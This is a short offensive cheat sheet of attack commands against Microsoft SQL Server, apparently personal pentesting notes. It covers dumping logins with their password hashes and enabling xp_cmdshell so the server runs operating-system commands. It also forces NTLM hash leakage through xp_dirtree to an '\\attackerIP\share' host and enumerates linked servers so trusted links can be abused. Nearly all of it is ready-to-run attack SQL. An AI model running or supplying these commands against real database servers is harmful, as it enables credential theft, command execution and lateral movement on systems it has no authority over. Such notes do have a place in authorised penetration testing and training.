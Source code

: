 # pwning_mssql

#tools
#if you have a windows box u can use the SQL Management Studio (no really it's a good idea to take a look at this!)
# take a look at the msf modules, nmap sql modules
# also look at the sqlclient in impacket: mssqlclient.py -db db_sharepoint sa@192.168.1.10

#resources (this chap has made just an awesome collection of pwnage intel)
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links


#get SQL version
select @@version

#find out who we are
select suser_name();
select name,sysadmin from syslogins;

#list all users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

#list all databases
SELECT name FROM master.sys.databases;
#change database
use Database_Name;

#list advanced options
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
#check what account is being used
EXEC master..xp_cmdshell 'whoami'

#steal hashes using xp_dirtree
xp_dirtree '\\attackerIP\share'
exec master.dbo.xp_dirtree '\\attackerIP\share'

#list all tables

SELECT * FROM DATABASE_NAME.INFORMATION_SCHEMA.TABLES;

#abusing trusted links - see https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links
#list all servers
select srvname, isremote from sysservers;

